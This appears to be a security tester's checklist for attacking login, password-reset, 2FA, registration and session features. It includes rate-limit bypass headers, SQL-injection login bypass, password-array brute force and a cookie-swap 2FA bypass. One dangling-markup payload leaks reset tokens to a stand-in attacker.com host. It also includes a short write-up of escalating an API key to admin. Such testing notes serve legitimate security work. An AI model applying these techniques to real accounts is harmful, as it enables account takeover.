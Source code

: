 ***
### Forgot password testing
- Failure to validate session on Logout and Password reset
- Check if forget password reset link/code uniqueness
- Check if reset link does get expire or not if its not used by the user for certain amount of time
- Find user account identification parameter and tamper `ID` or `Parameter` value to change other user's password
- Check for weak password policy
- Weak password reset implementation Token is not validated after use
- If reset link has another param such as date and time, then. Change date and time value in order to make active & valid reset link.
- Check if security questions are asked?
	- How many guesses allowed?
	- Lookout policy maintained or not?
- Add only spaces in new password and confirmed password. Then hit enter and see the result
- Does it display old password on the same page after completion of forget password formality?
- Ask for two password reset link and use the older on from user's email

---
### Authentication
- Username enumeration
- Bypass authentication using various SQL injection on username and password field
- Lack of password confirmation on
	- Change email address
	- Change password
	- Manage 2FA
- Is it possible to use resources with authentication? Access violation
- Check if user credential are transmitted over SSL or not
- Weak login function HTTP and HTTPS both are available
	- Test user account lockout mechanism on brute force attack
	- Variation: If server blocks instant user requests, then try with time throttle option from intruder and repeat process again.
	- Bypass rate limiting by tampering user agent to `Mobile User Agent`
	- Bypass rate limiting by tampering user agent to `Anonymous user agent`
	- Bypass rate limiting by using null byte
- Create a password using `cewl` command
- Test Oauth login functionality
	- Oauth Roles
		- Resource owner -> user
		- Resource server -> twitter
		- Client application -> `twitterdeck.com`
		- Authorization server -> twitter
- Bypass rate limit with `X-Forwarded-For:` to pwn authentication
- Host header injection in forget password page
- Test remember me functionality
- Test password reset and/or recovery
	**2FA Bypass**
	- Access the content directly (`site.com/prifle`)
	- Login using Oauth gmail or Facebook to bypass 2FA
	- Reset password and login into the account to bypass 2FA
	- Use old token or change the response
- Go to the rest password page and add two emails while sending the reset password link (You could receive two password reset links)
- Web cache deception (`site.com/file/ok.css`)
- Php protection can be bypassed using `[]` such as `password=123` -> `password[]=` (CSRF tokens too)
- While resetting password change the host header to your server (VPS) = secret link to your VPS
- Bypass rate limit protection: Change system IP per request
- `#Password` reset poisoning via **dangling markup**
	- `Host: victim.com'<a href="//attacker.com/?`
- Add `X-Forwarded-For: 127.0.0.1` or `1-1000` to bypass the rate limit protection
- Login into the valid account and then into then invalid one, repeat this process to fool the server to bypass the rate limit protection (Observe that your IP blocked if you submit 3 incorrect logins in a row However, you can reset the counter by logging in yo your own account before the limit is reached)
- Replace the single string value of the password with an array of strings containing all of the candidate passwords. For example:
```json
"usernae":"test_account",
"password":[
	"123456",
	"password",
	"qwerty",
	...
]
```
- if you enter the wrong code twice, you'll be logged you again bypass it using macros (You need to use Burp's session handling features to log back in automatically before sending each request)

---

1. After signup, I could only access the organization as a `VIEWER`
2. FOUND and endpoint where API KEYS for the organisation were created
3. Google'd the required parameters and it required the following parameters:
```json
{"name":"test", "scope":["viewer"]}
```
4. `scope` could be either `viewer` or `admin` but both gave me 403 forbidden
5. Sent an empty array such as `"scope":[]`
6. API key was generated having full access to the organization
7. Using the key, I changed my role from `VIEWER` to `ADMIN` and had full control over the organization

---
### Bypassing two-factor authentication

Flawed two-factor verification logic sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website does't adequately verify that same user is completing the second step for example, the user logs with their normal credentials in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request users this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456'
```
In this case, an attacker could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.come
Cookie: account=victim-user
...
verification-code=123456
```

---
### Common password reset vulnerabilities
1. Password reset poisoning
2. Predictable reset Tokens
3. Expired token reuse
4. Missing or weak email verification
5. Token Leakage in referer header
6. Unprotected password reset forms

---
### Password reset functionality bugs:
- No rate limiting on password reset
- Password reset link not expiring
- Password reset with manipulating email parameter
- Password reset token leak via refer
- Password reset poisoning
- Response manipulation
- Password reset token leaked in response
- Brute force password reset token/OPT
- Use attacker account password reset token to reset victim account
- Self-XSS in password reset functionality
- Change in referer lead to malicious hyperlink in email
---
### Registration feature testing
- Check for duplicate registration/overwrite existing user
- Check for weak password policy
- Check for reuse existing usernames
- Check for insufficient email verification process
- Weak registration implementation-Allow disposable email address
- Weak registration implementation-over HTTP
- Overwrite default web application pages by specially crafted username registrations - after registration does your profile link appear something as `www.example.com/user`
	- If so, enumerate default folders of web application such as `/images`, `/contact`, `portfolio`
	- Do a registration using the username such as images, contact, portfolio
	- Check if those default folders have been overwritten by your profile link or not
---
### Session Management Testing
- Identify actual session cookie out of bulk cookies in the application
- Decode cookies using some standard decoding algorithms such as Base64, hex, URL, etc
- Modify **cookie.session** token value, by 1 bit/byte. Then resubmit and do the same for all tokens. Reduce the amount of work you need to perform in order to identify which part of the token is actually being used and which is not
- If self-registration is available and you can choose your username, log in with a series of similar username containing small variations between them, such as A, AA, AAA, AAAB, AAAC, AABA, and so on. If another user-specific data is submitted at login or stored in user profile (such as an email address)
- Check for session cookies and cookie expiration date/time
- Identify cookie domain scope
- Check for HttpOnly flag in cookie
- Check for secure flag in cookie if the application over SSL
- Check for session fixation i.e. value of session cookie before and after authentication
- Replay the session cookie from a different effective IP address or system to check whether the server maintains the state of the machine or not
- Check for concurrent login through different machine/IP
- Check if any user pertaining information is stored in cookie value or not if yes, tamper it with other user's data
- Failure to invalidate session on (Email Change, 2FA Activation)
---
